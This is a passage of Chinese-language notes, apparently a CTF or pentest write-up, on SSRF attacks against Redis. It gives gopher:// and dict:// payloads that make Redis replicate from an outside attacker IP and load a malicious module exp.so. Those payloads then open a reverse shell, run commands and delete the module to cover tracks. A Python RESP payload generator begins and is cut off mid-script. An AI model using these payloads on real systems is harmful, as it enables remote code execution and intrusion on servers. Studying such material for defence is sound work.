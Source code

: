 本地端口21000,我自己起了个重定向的python服务

接下来有两个协议,一个是dict 另一个是gopher

- gopher

  这个会比较轻松,因为可以执行多条命令,但是要双url什么的

  等wp

  看起来像

  ```bash
  #设置文件名，连接恶意Redis服务器
  gopher://127.0.0.1:6379/_config%2520set%2520dbfilename%2520exp.so%250d%250aslaveof%2520*107.172.141.31*%2520*21000*%250d%250aquit
  # * 记得去掉
  #加载exp.so，反弹shell
  gopher://127.0.0.1:6379/_module%2520load%2520./exp.so%250d%250asystem.rev%2520*107.172.141.31*%2520*9999*%250d%250aquit
  ```

- dict

  只能一条条执行

  ```bash
  1.设置保存文件名
  curl dict://127.0.0.1:6381/config:set:dbfilename:exp.so
  2.连接远程主服务器
  curl dict://127.0.0.1:6381/slaveof:107.172.141.31:21000
  #执行slaveof的时候就已经开始同步文件了,所以需要设置文件名在第一步
  3.载入 exp.so
  curl dict://127.0.0.1:6381/module:load:./exp.so
  4.断开主从
  curl dict://127.0.0.1:6381/slaveof:no:one
  5.恢复原始文件名
  curl dict://127.0.0.1:6381/config:set:dbfilename:dump.rdb
  6.执行命令
  curl dict://127.0.0.1:6381/system.exec:'whomai'
  7.删除痕迹
  curl dict://127.0.0.1:6381/system.exec:rm './exp.so
  ```

### 有认证的ssrf攻击

放个脚本先

```py
import urllib.parse

def tranToResp(x):
        xSplit = x.split(" ")
        cmd=""
        cmd+="*"+str(len(xSplit))
        for i in xSplit:
            i = i.replace("${IFS}"," ")
            cmd+="\r\n"+"$"+str(len(i))+"\r\n"+ i
        cmd+="\r\n"
        return cmd

def GeneratePayload(ip, port):
    cmd=[
     "config set dir ./",
     "config set dbfilename exp.so",
     "slaveof {i} {p}".format(i=ip, p=port),
     "module load exp.so",
     "system.exec ls",
     "system.exec rm${IFS}exp.so",
```